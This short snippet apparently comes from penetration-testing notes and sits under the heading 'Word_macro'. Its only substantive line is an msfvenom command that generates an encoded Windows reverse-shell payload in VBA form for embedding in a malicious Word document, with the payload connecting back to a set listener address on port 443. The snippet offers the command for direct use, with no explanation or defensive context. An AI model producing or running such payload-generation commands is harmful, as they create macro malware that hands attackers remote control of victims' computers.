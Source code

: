 # Word_macro
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.153 LPORT=443 -e x64/shikata_ga_nai -f vbapplication
